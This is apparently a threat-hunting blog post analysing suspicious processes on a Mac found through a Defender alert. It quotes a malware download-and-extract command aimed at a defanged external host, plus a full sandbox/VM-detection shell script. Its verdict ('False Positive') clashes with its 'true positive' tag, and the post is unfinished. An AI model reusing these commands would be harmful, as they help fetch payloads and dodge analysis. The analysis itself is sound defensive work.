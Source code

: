 ```yaml
---
title: Mac Malware?
date: 2022-05-19 11:39 +0200
categories: [Hunting, MDE]
tags: [mde, hunting, true positive]
---
```

{% include mermaid.liquid %}

Today we investigate some strange discovery actions by processes on a macbook

## The Alert
In the essence this alert was showing multiple different processes doing very similar actions, for sake of simplicity we will focus on one.
In most cases the process [xpcproxy](https://www.unix.com/man-page/osx/8/xpcproxy/) was used to run a sub process which in turn started some bash commands.
For this investigation I put xpcproxy out of scope as it did not seem to be part of a malicious execution chain (my mac knowledge is basic)
This xpcproxy would run an executable for example apadecoded and this in turn would run new processes example:
```bash
/bin/sh /var/folders/zz/zyxvpxvq6csfxvn_n0000000000000/T/FE8B53AE-FE86-4FF8-98E1-D7987304368D
```
apadecoded itself looks already strange enough and is also found on VT, but what is this "FE8B53AE-FE86-4FF8-98E1-D7987304368D"?

It seems like this executable toes a download of some additional code from external and extracts it to "/private/var/tmp/helpexecd/helpexecd"
```bash
/usr/bin/curl -s -L -o /var/tmp/helpexecd.tgz hxxp://cdn[.]eniqdix[.]icu/static/s3/exec6625/helpexecd[.]tgz
tar -xzf /var/tmp/helpexecd.tgz -C /var/tmp/helpexecd/
```
And then it runs this helpexecd which amongst other things runs this bash script:
```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){ ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){(($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){ local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${VM_LIST}"||echo "${ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){ ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${VM_LIST}";};is_hw_data_vm(){ system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${VM_LIST}";};is_vm(){ is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){ is_vm&&echo 1||echo 0;};main "${@}"'
```
Now this feels like malware trying to figure out if it's running in a sandbox, highly fishy!

## Hunting deeper

If we look at more cases of the same endpoint we can see that the same thing that apadecoded does, what's more interesting is, that there are many processes starting the exact same behaviour.
Here is a list of observed ones:
 * canonistical
 * noble
 * odontolite
 * intrinsicalness
 * TestDate
 * SysUpdater
 * leam
 * recommitment
 * TestDateDaemon
 * apadecode
 * apadecoded

<div class="mermaid">
flowchart TD;
    kernel_task --> launchd;
    launchd --> xpcproxy;
    xpcproxy --> apadecoded;
    apadecoded --> 451CEB63-C438-40C3-899F-0BE4F425F074;
    apadecoded --> DFBDC5FD-3F69-472A-832B-C8C394560BC4;
    apadecoded --> AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09;
    451CEB63-C438-40C3-899F-0BE4F425F074 --> curl;
    DFBDC5FD-3F69-472A-832B-C8C394560BC4 --> curl;
    AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09 --> curl;
    curl --> cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz;
    curl --> 89.187.162.142;
    89.187.162.142 --> helpexecd;
</div>


## Verdict

| Indicator                              | Thoughts                                                                                                            | Verdict |
|----------------------------------------|---------------------------------------------------------------------------------------------------------------------|---------|
| CMD started by User                    | Either compromise of host, or legitimate action by user                                                             | -10%    |

**Verdict: False Positive**

## Next Steps

